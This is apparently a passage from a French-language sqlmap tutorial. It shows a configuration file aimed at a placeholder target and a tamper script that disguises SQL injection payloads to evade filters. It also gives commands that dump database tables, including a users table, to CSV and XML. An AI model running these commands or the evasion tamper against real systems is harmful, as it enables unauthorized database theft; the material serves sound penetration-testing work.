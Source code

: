## 🛠️ Configuration Avancée

### Fichier de configuration personnalisé
```ini
# sqlmap.conf
[Target]
url = http://target.com/page?id=1
cookie = SESSIONID=abc123

[Request]
user-agent = Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36
delay = 2
timeout = 30
retries = 3

[Optimization]
threads = 5
predict-output = True
keep-alive = True

[Injection]
technique = BEUST
risk = 2
level = 3

[Detection]
text-only = True
titles = True
```

### Tamper scripts personnalisés
```python
# custom_tamper.py
def tamper(payload, **kwargs):
    """
    Tamper script personnalisé
    """
    # Encodage personnalisé
    retVal = payload
    if payload:
        retVal = payload.replace(' ', '/**/')
        retVal = retVal.replace('=', ' like ')
    
    return retVal
```

## 📊 Analyse et Reporting

### Formats de sortie
```bash
# CSV export
sqlmap -u "http://target.com/page?id=1" -D database_name -T users --dump --csv

# Sauvegarde dans fichier
sqlmap -u "http://target.com/page?id=1" --dbs --output-dir=./results

# Format XML
sqlmap -u "http://target.com/page?id=1" --dump --xml=results.xml
```
